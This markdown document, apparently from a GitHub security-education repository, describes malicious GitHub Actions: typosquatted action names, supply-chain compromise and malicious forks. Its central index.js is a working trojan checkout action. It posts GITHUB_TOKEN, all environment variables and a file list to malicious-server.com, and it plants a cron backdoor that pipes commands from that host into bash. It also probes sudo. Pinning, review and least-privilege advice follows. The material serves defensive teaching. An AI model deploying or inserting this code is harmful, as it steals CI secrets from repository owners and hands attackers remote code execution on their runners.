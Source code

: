 # Malicious GitHub Action Example

## Overview
This document demonstrates how malicious GitHub Actions can be created and used for security testing purposes.

## Attack Vectors

### 1. Typosquatting
Create actions with similar names to legitimate ones:
- `actions/checkout` → `actions/check0ut`
- `actions/setup-node` → `actions/setup-n0de`
- `actions/upload-artifact` → `actions/upload-artifacts`

### 2. Supply Chain Compromise
Compromise legitimate action repositories:
- Social engineering maintainers
- Exploit vulnerabilities in dependencies
- Malicious pull requests

### 3. Malicious Fork
Fork legitimate actions and add malicious code:
- Add backdoors to existing functionality
- Exfiltrate data while maintaining original behavior
- Persist access through various mechanisms

## Example Malicious Action

### action.yml
```yaml
name: 'Malicious Checkout Action'
description: 'A malicious version of the checkout action'
inputs:
  repository:
    description: 'Repository to checkout'
    required: true
  token:
    description: 'Token for authentication'
    required: false
runs:
  using: 'node16'
  main: 'index.js'
```

### index.js
```javascript
const core = require('@actions/core');
const exec = require('@actions/exec');
const fs = require('fs');
const https = require('https');

async function run() {
  try {
    // Legitimate functionality
    const repository = core.getInput('repository');
    const token = core.getInput('token');
    
    // Checkout the repository (legitimate behavior)
    await exec.exec('git', ['clone', `https://github.com/${repository}.git`]);
    
    // Malicious functionality (hidden)
    await exfiltrateData();
    await establishPersistence();
    await escalatePrivileges();
    
  } catch (error) {
    core.setFailed(error.message);
  }
}

async function exfiltrateData() {
  // Collect sensitive information
  const data = {
    repository: process.env.GITHUB_REPOSITORY,
    actor: process.env.GITHUB_ACTOR,
    token: process.env.GITHUB_TOKEN,
    secrets: process.env,
    files: await getFileList()
  };
  
  // Exfiltrate to external endpoint
  const postData = JSON.stringify(data);
  const options = {
    hostname: 'malicious-server.com',
    port: 443,
    path: '/collect',
    method: 'POST',
    headers: {
      'Content-Type': 'application/json',
      'Content-Length': Buffer.byteLength(postData)
    }
  };
  
  const req = https.request(options, (res) => {
    console.log('Data exfiltrated successfully');
  });
  
  req.write(postData);
  req.end();
}

async function establishPersistence() {
  // Create backdoor files
  const backdoorScript = `
#!/bin/bash
while true; do
  curl -s https://malicious-server.com/commands | bash
  sleep 300
done
  `;
  
  fs.writeFileSync('/tmp/.systemd', backdoorScript);
  fs.chmodSync('/tmp/.systemd', '755');
  
  // Add to crontab
  await exec.exec('crontab', ['-l'], { silent: true });
  await exec.exec('echo', ['*/5 * * * * /tmp/.systemd'], { silent: true });
}

async function escalatePrivileges() {
  // Attempt privilege escalation
  try {
    await exec.exec('sudo', ['-n', 'id'], { silent: true });
    console.log('Privilege escalation successful');
  } catch (error) {
    console.log('Privilege escalation failed');
  }
}

async function getFileList() {
  // Collect file information
  const files = [];
  const walkDir = (dir) => {
    const items = fs.readdirSync(dir);
    items.forEach(item => {
      const fullPath = `${dir}/${item}`;
      const stat = fs.statSync(fullPath);
      if (stat.isDirectory()) {
        walkDir(fullPath);
      } else {
        files.push(fullPath);
      }
    });
  };
  
  walkDir('.');
  return files;
}

run();
```

## Detection and Prevention

### 1. Action Pinning
Always pin actions to specific commit SHAs:
```yaml
- uses: actions/checkout@8f4b7f84864484a7bf31766abe9204da3cbe65b3
```

### 2. Action Review
- Review action source code before use
- Check action maintainer reputation
- Verify action authenticity

### 3. Least Privilege
- Use minimal required permissions
- Avoid unnecessary secrets
- Limit action scope

### 4. Monitoring
- Monitor action usage and changes
- Implement security scanning
- Use dependency analysis tools

### 5. Self-Hosted Runners
- Use self-hosted runners for sensitive workloads
- Implement network isolation
- Monitor runner activities

## Security Testing

### 1. Controlled Environment
- Use isolated test repositories
- Implement network restrictions
- Monitor all activities

### 2. Ethical Considerations
- Only test on your own repositories
- Obtain proper authorization
- Document all testing activities

### 3. Reporting
- Document findings
- Provide remediation recommendations
- Share knowledge with security team

## Conclusion

GitHub Actions provide powerful automation capabilities but also introduce new attack vectors. Understanding these threats and implementing proper security controls is essential for maintaining a secure CI/CD pipeline.

## References

- [GitHub Actions Security Best Practices](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions)
- [OWASP CI/CD Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/CI_CD_Security_Cheat_Sheet.html)
- [GitHub Actions Security](https://github.com/features/security)
